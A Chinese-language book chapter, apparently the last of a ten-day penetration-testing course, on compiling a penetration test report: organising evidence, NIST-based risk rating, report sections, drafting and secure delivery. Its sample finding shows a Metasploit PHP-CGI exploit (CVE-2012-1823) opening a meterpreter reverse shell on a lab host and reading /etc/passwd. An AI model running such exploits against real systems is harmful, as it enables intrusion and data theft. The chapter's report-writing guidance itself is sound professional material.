







## 10 编写渗透测试报告

这最后一天标志着渗透测试的 culmination。过去 9 天我们学习并围绕各种主题进行实验。直到现在，我们一直关注使用各种工具测试公司的各个部分是否存在任何与安全相关的漏洞或差距。所有这些活动为我们提供了所需的信息和证据。今天，我们关注的是将所有证据和发现整理成交付给客户的最终成果——渗透测试报告。

在本节中，我们将讨论如何创建渗透测试报告。从收集我们生成的所有数据开始，到讨论最终报告的实际结构，再到最终构建并交付最终产品。报告的结构和布局是我个人偏好，基于我在报告两方面的经验（有时是测试人员，有时是利益相关者），以及来自第三方审计的接收方。因为这个原因，我积累了一些重要的经验，关于我认为展示数据最有效的方式。然而，随着你制作报告并与利益相关者交流，你自己也会获得这些宝贵的见解，并根据自己的认知定制结构和流程。这完全可以接受，因为这些报告往往非常个人化。

本章将讨论以下主题：
- 收集你的所有数据
- 定义风险的重要性
- 渗透测试报告的结构
- 构建报告
- 交付报告

### 收集你的所有数据

现在所有测试都已执行，证据也已收集，是时候收集我们所有的数据了。希望你一直将其很好地组织在你的 C&C 服务器上，这样整个过程会容易得多。通常，我通过将数据分解为三个部分来开始整个过程。这将开始让我达到最终结构的过程，使我能够将所有数据转化为最终产品。

我将信息分解为以下三个初始类别：
- 报告
- 图表
- 漏洞/发现信息

然后，我将包含截图、脚本和笔记的漏洞证据移至各自的漏洞中，按漏洞排序。这使得写作迁移更容易。

例如，回看第 8 章《Web 应用程序攻击》，我通常会将第 4 章《漏洞扫描和 Metasploit》的漏洞证据分解为以下类别：
- Web 应用程序漏洞
- 客户端漏洞
- 基础设施漏洞
- 设计漏洞
- 身份漏洞
- 会话管理漏洞
- 验证漏洞
- 错误处理漏洞
- 逻辑漏洞

完成此步骤后，我会再次精炼所有漏洞证据。这次精炼到实际的漏洞。例如，取前面其中一个类别，客户端漏洞，我会将其分解为实际存在的问题：
- Web 应用程序漏洞
- 客户端漏洞
- 反射型 XSS 漏洞
- 存储型 XSS 漏洞

然后，我会将所有相关证据放入前述分类中。这将允许我在漏洞存在于多个地方时对常见漏洞进行分组。一个很好的例子是，我在不同位置有多个不同的 Web 应用程序，都容易受到存储型 XSS 攻击。

一旦所有证据都组织好，你会发现它确实使生成报告的过程变得容易得多。

### 定义风险的重要性

定义风险几乎就是进行渗透测试的全部原因。风险定义了特定漏洞在特定环境中影响程度的大小或无影响程度。

通常，风险是根据 NIST SP 800-30 定义的。该文档是进行风险评估的绝佳指南。它包含风险信息的所有基础，包括风险管理流程、风险评估、重要风险概念以及风险评估的应用。然后它深入探讨实际的风险评估流程，从准备到执行，再到沟通，最后维护风险评估。请记住，风险可能特定于个人、公司或情况。例如，如果客户在某个与所有其他系统隔离的开发机上运行默认实例的 MySQL 并使用默认密码，其风险等级不会与该实例在生产环境中运行的风险等级相同。

下图很好地展示了风险如何受关键风险因素影响，例如，来自特定来源的特定事件对组织造成不利影响的风险（或可能性）：



为了确定漏洞或发现的特定风险，我们将漏洞通过类似以下由 NIST 设计的图表进行评估。基于此结果，我们可以使用我们定义的风险图表分配类别或数字：



另一种看待风险的方式，也是我最喜欢的关于风险的 NIST 图表之一，就是查看整体可能性图表。该图表采用两种不同的输入。第一个是事件发生的可能性。第二个输入是事件导致不利影响的可能性。答案就是你的风险或可能性：

| 威胁事件发起或发生的可能性 | 威胁事件导致不利影响的可能性 |  |  |  | |
| | 非常低 | 低 | 中等 | 高 | 非常高 |
| 非常高 | 低 | 中等 | 高 | 非常高 | 非常高 |
| 高 | 低 | 中等 | 中等 | 高 | 非常高 |
| 中等 | 低 | 低 | 中等 | 中等 | 高 |
| 低 | 非常低 | 低 | 低 | 中等 | 中等 |
| 非常低 | 非常低 | 非常低 | 低 | 低 | 低 |

图表乍一看可能令人困惑，但当你思考一个例子并将其应用于此图表时，一切都变得非常合理。让我们举一个例子来展示图表的使用。假设我们在某个远程测试服务器上有一个 SSH 漏洞。如果威胁事件发生，影响将是高的。然而，SSH 受到防火墙保护，并且仅允许一个单一 IP 地址访问。由于只有少数地址被允许通过 SSH 访问该服务器，威胁事件发起或发生的可能性非常低。基于所有这些，我们可以看到总风险为低。该图表的优点在于，如果你将此相同示例应用于另一个环境，它可以真正展示其威力。基于初始评估，我们知道如果此 SSH 漏洞发生，影响将是高的。现在，假设此环境与第一个不同，SSH 对全世界开放。现在，此事件发生的可能性非常高。

基于此信息，我们可以看到该漏洞在此环境中的风险非常高，即使在另一个环境中它被列为低风险。这展示了定义风险的威力。此图表是一个很好的参考，应作为确定环境内风险的基础。

### 渗透测试报告的结构

渗透测试的结构可能因人而异。每个人都有自己的想法和观点，认为应该包含什么、不应该包含什么以及如何措辞。我不认为渗透测试报告必须以特定方式呈现且仅以该方式呈现。对我来说，只要你在最初的利益相关者会议上承诺交付的内容得到交付，那就应该没问题。然而，注意我说的是“可以”而不是“优秀”。我收到过一些在交付承诺内容方面全部达标的渗透测试报告，但报告中的内容和思考显然不够透彻和完整。我们将在“构建报告”部分更详细地讨论这个问题。

现在，关于渗透测试报告的结构，我倾向于在所有报告中都包含某些部分，无论参与规模大小。这些是各部分以及我放入其中的一些信息，以及我认为它们应出现在每份渗透报告中的原因。


这些不一定必须是你报告中的内容。让它们成为你自己的活文档，并尝试和探索如果你在报告的另一端会觉得有用的选项。记住，一种尺寸并不适合所有人。

### 封面页

封面页可能看起来并不太重要，但它确实为整个报告定下了基调。它是利益相关者首先看到的东西，所以它需要看起来不错。它应该包含适当的标志，既有你的，也有你进行测试的公司。确保标志大小正确且看起来不错，而不仅仅是从他们网站上剪切下来的东西。正确地营销自己不仅有助于提升你的个人品牌，还能吸引利益相关者想要阅读报告。

相关信息例如所执行工作的高层级名称。例如，它是“Penetration Testing of Corporation ABC Headquarters”还是更像是“Web Application Report for Corporation ABC”？这为用户设定了报告的范围，或者更确切地说，是期望的受众和范围。如果用户不处理 Web 应用程序方面的工作，那么最后一个选项与他们无关，因此他们不会阅读它。

我始终包含的最后一个主要信息是时间线。例如，如果我每年运行测试，我会写类似“Annual 2017 Report”。如果我按季度运行这些测试，报告将类似于“Quarter 1 2017 Report”。这有助于设定报告的整体时间线。


## 目录

像任何良好且详尽的文档一样，目录是必要的。这些报告的长度可能相当大，取决于任务的范围和时间线。此外，环境的是否安全或不安全在决定报告最终长度方面也可能起着极其重要的作用。但无论如何，你需要读者能够看到信息在报告中的位置，而无需逐页滚动查找，例如各种风险等级的定义。确保目录包含页码，正是出于这个原因。你绝对不必过于深入地探讨什么构成进入目录的内容，而不是仅仅并入更大的章节。然而在我看来，如果它是与前一节的关键区别，就应在目录中予以适当注明。

## 执行摘要

执行摘要就是这样，为高层管理人员设计的摘要。它应是对项目的简要概述，包括谁、什么、在哪里、何时，以及非常高层次的如何。这里不应提及任何具体的测试或软件工具。我总是给出结果的高层次视图，以及我的建议，但远不及我在《详细发现》部分将解释的深度。此外，由于组织的对安全的理解可能存在差异，可能存在安全脱节，因此我会表达可能需要表达的任何紧迫性或优先级。这通常是我如何结束执行摘要的方式。

## 项目范围

对于本节，我重申我们在初始会议期间与利益相关者讨论过的范围。这包括诸如测试位置、分析的 IP 空间、涉及的应用程序以及渗透测试类型（例如，外部或内部）等内容。这样，任何阅读报告的人都能了解测试了什么，以及为什么进行测试，以及可能未进行测试的内容。例如，我们可能会说明渗透测试的范围是我们的迈阿密地点，并且我们的在线客户关系应用程序的 Web 应用程序在此次测试范围内。我们还需要提及对项目施加的任何限制，包括诸如时间框架、分配的资源以及公司预算等项目。所有这些项目都会影响我们作为渗透测试人员所做工作的范围。本节将有助于概述整个报告。

## 渗透测试的目标

对于渗透测试的目标部分，这里目标只是概述我们被聘请进行渗透测试的原因或原因。例如，网络或应用程序中是否发生了导致我们介入的入侵？或者，这是开始接受信用卡并需要符合 PCI 合规性的一部分举措？务必始终解释您的服务将如何帮助您实现公司的目标和目标。


确保您解决原始范围文件和利益相关者会议中的所有目标。重要的是，原本承诺的一切都已完成。

## 风险评级尺度描述

风险在渗透测试中起着巨大作用，但在测试完成后公司如何推进也起着重要作用。我见过只有中高风险评级事件被关注的情况。因此，明确定义您的风险评级尺度并彻底解释每个不同级别非常重要。您永远不想让任何风险等级开放解释，因为这可能导致混淆，并可能导致客户的错误修复路径。

关键性级别及其定义方式是开放解释的。您可以创建自己的或使用已定义的。



如果您选择使用自己的风险评级图表，请保持一致并在所有任务中使用。如果您在图表之间来回切换，您可能会让自己和客户感到困惑。这种不一致可能会伤害您，尤其是在您最终为同一客户进行重复测试时。某物在一个图表中可能是极端的，而在另一个图表中是高的，术语的切换只会导致混淆。

我使用渗透测试执行标准定义的风险图表，因为我发现它是最全面的。以下是对此风险图表的复制，供您审阅：

## 信息安全风险评级尺度

| 级别 | 描述 |
|---|---|
| **极端** 13-15 | 安全控制被破坏的极端风险，可能因此导致灾难性财务损失 |
| **高** 10-12 | 安全控制被破坏的高风险，可能因此导致重大财务损失 |
| **提高** 7-9 | 安全控制被破坏的提高风险，可能因此导致实质性财务损失 |
| **中等** 4-6 | 安全控制被破坏的中等风险，可能因此导致有限财务损失 |
| **低** 1-3 | 安全控制被破坏的低风险，可能因此导致可衡量的负面影响 |

我喜欢这个图表的几点。第一，级别数量充足。我发现有些图表选项太少。例如，使用低、中、高并不能对风险进行任何合理化。如果一个发现非常糟糕需要立即修复，而另一个发现也很糟糕需要尽快修复而不是以后修复，根据图表，一个将是高，另一个是中。对我来说，那个中等会被忽视并且可能永远不会更新。中等没有高或极端同样的紧迫感。

我喜欢这个图表的另一点是使用的颜色。它们在其他应用中具有非常相似的含义。例如，红色往往是最糟糕的。在监控应用中，红色通常表示宕机情况。或者，在驾驶时，它意味着停止移动。与红色类似，黄色在其他应用中也有类似含义。监控系统中的黄色通常意味着出了问题但未宕机。它可能存在一些丢包但仍可访问。在驾驶中，它意味着要谨慎。你仍然可以驾驶并通过路口，但要小心，因为红灯即将到来。最后，还有绿色。使用过去的类似例子，绿色往往在光谱的另一侧，无论我们谈论的是驾驶还是服务器监控应用。

我喜欢这个图表的最后一件事是数字参考。如果我们有色盲的个人审阅这些报告，他们将无法获得严重程度的真实表示，因为他们可能无法辨别颜色。数字使我们能够在没有颜色的情况下也显示规模。数字越大威胁越大，而数字越小威胁越小。永远不要认为每个人都能看到颜色图表非常重要。

## 发现摘要

这在受众层面上与执行摘要非常相似。这应该是一个相对较小的部分，包括所发现内容的高层次摘要。我倾向于使用显示所发现内容的图形。一图胜千言，我完全同意这一说法。带有风险分解的彩色饼图将非常快速地总结报告的紧迫性。使用与风险评级相同的语言和分类，以及颜色编码。一致性是关键。确保在此处只陈述事实，而不是任何主观陈述。这真的只是高层次的事实。



一些渗透测试人员更喜欢显示所执行测试的摘要而不是风险。真的取决于渗透测试人员以及他们认为什么更有价值。对我来说，风险摘要更有价值，尤其对高层管理人员。他们往往不想了解或不需要了解服务器上存在多少设计缺陷或缺少补丁，而更关注对业务的整体风险。

以下是我的图形类型的示例，再次保持前面讨论的相同外观和感觉：

## 发现摘要



## 详细发现

本节是渗透测试报告的核心。它将列出我们在各种测试中发现的所有问题，按风险从高到低排序。本节应具有技术性并包含尽可能多的细节。这将是技术受众深入阅读以更好地了解问题是什么以及如何可能进行修复的部分。就在那里我刚刚说了一个重要的声明。我总是在漏洞中包含一个部分，说明我的建议或修复选项。


有时漏洞或发现看起来和感觉非常相似。作为一名安全专业人员，也是执行测试的人，我往往对当前问题有更深入的了解。正因为如此，我总是会解释我的建议或修复选项。我不想让客户自己去弄明白，因为有时他们可能会选择错误的修复方式。

此部分在不同渗透测试人员或安全公司之间的格式可能差异很大。您可以将所有发现以某种图表形式、段落形式、嵌入图形中或表格格式呈现。各有所好。我最喜欢表格格式。

在这种表格格式中，每个主要部分都是一个漏洞或发现。这样它将成为主要焦点。在该漏洞中，我将包含以下信息，对每个漏洞都相同，且所有字段都已填写：

- 漏洞/发现名称
- 漏洞/发现描述
- 环境风险评级
- 漏洞的详细信息
- 建议/修复措施
- 外部 CVE 或其他参考

再次提醒，您可以随意自定义流程、名称等。但是，请确保提供的数据对客户相关，使用客户能够理解的语言，并提供修复信息。

根据漏洞以及我在测试中获得的证据，我将包含截图、图表和攻击场景等项目。以下是我的实验室中一次测试的示例：

```
PHP-CGI Argument Injection
```

描述：某些版本的 PHP 存在漏洞，允许在查询字符串中注入参数，然后传递给 CGI，最终导致远程代码执行。

严重性：高 (12)

详细说明：在对位于 192.168.33.21 且在范围内的特定 Web 服务器进行漏洞评估期间，PHP 版本被标记为存在此漏洞。发现此问题后，尝试了已验证的攻击。使用 Metasploit 框架中的 msfconsole，我使用了与发现的漏洞匹配的以下 exploit：

```
exploit/multi/http/php_cgi_arg_injection
```

加载此 exploit 并将我的 RHOST 变量设置为远程主机后，我能够打开一个 meterpreter 会话，如下所示：

```
msf exploit(php_cgi_arg_injection) > exploit

[*] Started reverse TCP handler on 192.168.87.129:4444
[*] Sending stage (34122 bytes) to 192.168.87.130
[*] Meterpreter session 1 opened (192.168.87.129:4444 -> 192.168.87.130:33595) at 2017-01-27 10:15:00 -0500

meterpreter >
```

从该提示符开始，我能够获取远程机器上的敏感文件以及其他潜在的恶意活动。以下截图验证了获取敏感文件的能力：

```
meterpreter > cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
```

- 建议、修复措施：升级 PHP 到不受影响的已修补版本。这包括 5.4.3 及以上版本。
- 外部参考：CVE-2012-1823 EDB-25986
  OSVDB-81633 OSVDB-93979

此示例将所有内容联系起来，并为 C 级管理人员提供高层信息，以便他们决定是否处理该问题，同时为员工提供有关如何修复和如何测试的技术细节。

## 结论

结论收尾所有松散的线索，并对整个 engagement 进行最终概述。本节应包括您 engagement 的概要以及为何聘请您。还请务必重述渗透测试的原始目标。完成所有这些后，请务必重申您如何实现这些原始目标。提供几个具体示例来展示这是如何完成的以及这些服务如何为组织增加价值。始终以积极的语气结束结论，并说明您将如何继续渗透测试服务以帮助客户维护其安全状况。

## 附录 A - 使用的工具

在附录中，我喜欢列出我使用的所有各种工具以及其版本。这将使公司了解用于各种攻击的工具，以防他们想在内部执行类似测试。我认为这对利益相关者来说具有极大的价值。太多渗透测试人员会让客户知道存在的问题，但却不提供工具来确保他们在必要时能够重现问题。

您提供的信息由您决定。我倾向于包含我用于测试的任何硬件和软件平台。随附的信息中包括工具列表、这些工具的版本以及这些工具的描述。以下是我在渗透报告中使用的语法示例：

### 渗透测试期间使用的工具
### 使用的平台：
- 使用 VMWare Fusion 运行 Kali Linux 64 位 (2016.02) 的 Macbook Pro
- 运行 Kali Linux 2.1.2 的 Raspberry Pi 3
- 运行 Kali Linux 64 位 (2016.02) 的 IBM Thinkstation

### 使用的软件：
- Metasploit (4.13.24) – 渗透测试软件
- Uniscan (6.3) – 漏洞扫描器
- Skipfish (2.10b) – Web 应用暴力破解工具
- Wfuzz (2.1.3) – Web 应用暴力破解工具
- Sqlmap (1.1.2) – Web 应用 SQL 注入工具
- Crunch (3.6) – 词表生成器
- John (1.8.0.6) – 密码破解工具
- Hydra (8.3) – 密码破解工具
- Ncrack (0.5) – 密码破解工具
- Set (7.4.5) – 社会工程工具包
- Arpspoof (2.4) – ARP 欺骗工具
- Sslstrip (0.9) – SSL 拦截工具


工具部分包含的内容完全由您决定。我倾向于保持简单，只列出工具、版本和简要描述。我见过为每个工具列出各种攻击场景的情况。无论如何，有此部分肯定有助于客户了解使用的工具和平台，以便他们可能进行复制。

## 附录 B - 附加报告

本节旨在附加针对环境运行的任何报告结果。这些报告可以包括漏洞评估报告、Nmap 扫描报告和密码扫描。任何针对环境运行的扫描都应在此处包含。此外，如果适用，还包括基于扫描以外的项目的报告。例如，如果您使用 nipper-ng 进行配置审计，也请附加此报告。重点是附加您认为能为报告和利益相关者增加巨大价值的任何工具的报告。


本节的一个极其重要的部分是使报告成为您自己的，即使您使用的是第三方工具。您希望向利益相关者展示价值，而直接提供由工具输出的报告不会显示出太多价值。他们可以安装相同的工具并运行相同的报告。我不知道有多少次我收到了来自安全专业人员的各种报告，他们甚至懒得这样做。让报告成为您自己的，并遵循从文档开始时设定的主题。使用相同的罐装报告可能会让利益相关者质疑您和报告的整体。

这是一个实验室渗透测试的示例报告。我对其中一个测试交换机运行了 nipper 报告。现在，在真实报告中，我会将输出报告数据合并到我的标准格式中，但在这里我想展示附加报告的选项：




## 附录 C - 附带的图表

连同报告一起，提供您或组织内团队成员为支持此次测试而开发的任何图表都是非常好的。这可以帮助公司重现测试场景，同时也可能只是记录他们从未记录过的内容。我见过许多渗透测试创建了组织图表、数据流图或业务流程图等文档，而公司从未记录过这些文档，或者至少没有纸质副本。我在实验室中作为渗透测试的一部分创建了早期的 PCI 数据流图。

## 关于您的公司

本节全部关于营销您的品牌。您希望放置少量关于您公司及其提供的服务的信息。执行渗透测试的人员应有一小段文字博客，介绍他们的专业经验以及他们可能拥有的任何认证。这将帮助阅读报告的任何人了解谁执行了测试以及他们为何有资格执行。始终放置您的联系信息，以防任何人将来需要就其他事情联系您，以及公司可能持有的任何认证。它实际上应该读起来像一个30秒的广告。

## Onshore IT服务信用卡数据流



POS终端VLAN（5）

POS终端

防火墙

互联网

POS应用VLAN（15）

应用服务器

DB VLAN（27）

DB服务器

商户

## 构建报告

现在我们已经讨论了渗透测试报告的布局，只需将我们获得的所有信息放入我们刚刚讨论的逻辑结构中即可。

通常，从初稿开始。初稿总是会最困难，但大部分时间和精力都花在这一步。先从你觉得准备好的部分开始，然后在完成你最熟悉的部分后，再回头处理其他部分。我倾向于遵循以下流程：

- 1. 首先把所有主要标题放进去。
- 2. 然后，返回并在标题下放置所有主要部分。
- 3. 先处理你最熟悉的部分。跳来跳去，先完成你熟悉的部分。


如果以后需要在文档的任何部分添加内容，请做某种视觉标记。这样你就知道以后需要返回那里添加图形或文本或进行任何更改。我总是使用这组字符来表示仍在进行中的部分（XXXX）。这样，我就可以在将文档称为完成之前，在文档中搜索这些字符组是否存在。

- 4. 最后，浏览所有部分并完全填写它们。
- 5. 完成后，离开工作。我通常会等上一天左右再回去重读初稿。这样我的思维会更清新。


我有过在写完初稿后立即编辑的情况，并且由于内容在我脑海中如此新鲜，导致措辞不正确；我的大脑正确地阅读了文字，即使它们在页面上的布局是错误的。

- 6. 完成初稿的阅读和编辑后，请另一位团队成员阅读文档进行编辑。这始终是一个好主意，以确保措辞和思想完整。

此时，您应该有一份相当精美的报告，准备好进入下一步，即向利益相关者交付报告。

## 提交报告

报告完成后，现在是时候将其交付给原始利益相关者作为我们的最终交付物。如何以及向谁交付应在原始范围会议中定义。这是一个重要的过程，因为我们创建的文档可能包含您不希望泄露给任何人的敏感信息。如果这些信息落入坏人之手，例如黑客，他们将知道所有弱点以及攻击的确切位置。

第一步是决定报告是否需要以电子方式、物理方式或两者结合交付。让我们从电子方式开始。在这个数字时代，保护文档至关重要。需要考虑某种加密。这通常是共享在其他类型的媒介上或可能在对话中预先安排的对称密钥。这样，如果数字副本泄露，他们需要密钥才能读取它。此外，确保密钥不可猜测，并且需要确保密钥足够强。我们在第6章《基于密码的攻击》中讨论了强密码的重要性。

如果您想要更安全的保护，可以实施非对称加密来保护文档。这将需要实施用于加密和解密的数字证书。虽然设置要复杂得多，但绝对是文档加密中最安全的。

如果需要纸质副本，最好的选择是确保在公司内部打印。然而，这取决于公司的规模以及所需副本的大小和数量，您可能需要寻求外部帮助。如果是这种情况，请使用值得信赖的供应商进行所有外部打印。有些公司专门从事安全打印。浏览并查看其中几家，看看哪一家更符合您的需求。

现在您已经打印了报告，您需要确保可以安全地将其交付到最终目的地。如果您幸运的话，可以亲自送达，因为它们可能在合理的旅行距离之内。这是最佳情况，因为您不必担心交付被盗或丢失。然而，如果不是这种情况，您 definitely 需要考虑安全交付。有许多安全交付供应商，因此您可能需要做一些研究。无论供应商是谁，始终要求签名以确保组织中的某人签收交付，并始终获取跟踪号码。这样，您就可以与组织中的联系人核实包裹是否已送达。

## 总结

我们现在完成了第10天，也是这次渗透测试训练营的最后一天，让我们回顾一下。首先，我们谈到了收集整个参与过程中收集的所有数据。这包括将非结构化数据放入结构化布局中，以便更轻松地迁移到最终产品。

风险以及定义其重要性是下一个主题。我引用了 NIST 风险标准来帮助说明风险如何定义，以及风险如何变化，并举例说明了在两种不同环境中相同的漏洞。

接下来，我们触及了渗透测试的结构，这可能是本章最重要的部分之一。在这里，我列出了渗透报告中的各个部分，列出如下：

- 封面
- 目录
- 执行摘要
- 项目范围
- 渗透测试目标
- 风险评级标准说明
- 发现摘要
- 详细发现结论
- 附录 A - 使用的工具
- 附录 B - 附带报告
- 附录 C - 附带图表 关于您的公司

接下来，我们转向构建实际报告。这包括基于我多年来观察到的经验的一些最佳实践。最后，我们谈到了将最终产品交付给利益相关者作为我们的最终交付物。

我本想说，在下一章，但本章结束了本书。希望根据这最后10天/章节，您能更好地理解渗透测试流程。本书中发现并提供的信息应该能让您自信且更有信息地进行渗透测试流程。利用您在书中学到的信息，获得管理层的批准，运行一些内部渗透测试以磨练您的技能并为您的组织创造更强大的安全态势。


